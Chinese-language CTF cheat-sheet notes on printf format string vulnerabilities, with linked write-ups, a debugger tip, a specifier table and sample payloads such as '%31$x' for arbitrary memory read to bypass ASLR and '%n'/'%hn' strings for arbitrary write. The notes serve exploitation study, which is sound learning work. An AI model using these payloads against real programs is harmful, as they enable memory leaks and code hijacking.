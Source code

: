 [Second_BC の BloG | 格式化字符串](https://secondbc.github.io/SecondBC/2023/04/13/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2/)
[CTF 竞赛：从格式化输出函数到完全控制](https://mp.weixin.qq.com/s/1eXd6cBxNVwqjgu-A-KbCw)

- gets() 无限写溢出.\n 时停止
- 可以一次泄露多个目标值 `aaaaaaa,%11$p,%17$p`

### fmt/format/printf/格式化字符串

https://www.cplusplus.com/reference/cstdio/printf/

在 printf 行下断点,

```sh
tel esp
fmtarg <addr>
-- The index of format argument : 31 ("\%30$p")
输入 %31$p
```

| param | Desc                                                                                                      |
| ----- | --------------------------------------------------------------------------------------------------------- | --- |
| %d    | 十进制 - 输出十进制整数                                                                                   |
| %x    | 十六进制 - 输出十六进制数                                                                                 |
| %s    | 字符串 - 从内存中读取字符串                                                                               |
| %c    | 字符 - 输出字符                                                                                           |
| %p    | 指针 - 指针地址                                                                                           |
| %n    | 四字节 它前面字符长度为`l`, `aaaa%6$n` 四字节对齐，它前面是 aaaa 长度为`l:4`, 即对第 6 偏移地址写入数值 4 |     |
|       | %?$n 向栈内第?个指向的 地址处写入字符串长度。                                                             |
|       | 比如栈内第 2 个值为 0x40056a, %85c%2$n，就是向地址 0x40056a 写入 85                                       |
| %hhn  | 输出一个字节                                                                                              |
| %hn   | 输出一个双字节                                                                                            |

aaaa%p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
x64: aaaa%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x

[64 位格式化字符串漏洞修改 got 表利用详解](https://www.anquanke.com/post/id/194458?display=mobile)

aaaa%p %p %p %p %p %p %p(第 7 个)
aaaa0x8048 2 3 4 5 6 0x41414141
%p.%p.%p.%p.%p.%p.%p.%p.%p

%p 是 0x8048000
%x 是 8048000

'%31$x' 任意读 -> leak libc, PIE, Heap, Stack: bypass ASLR
'%31$n' 任意写
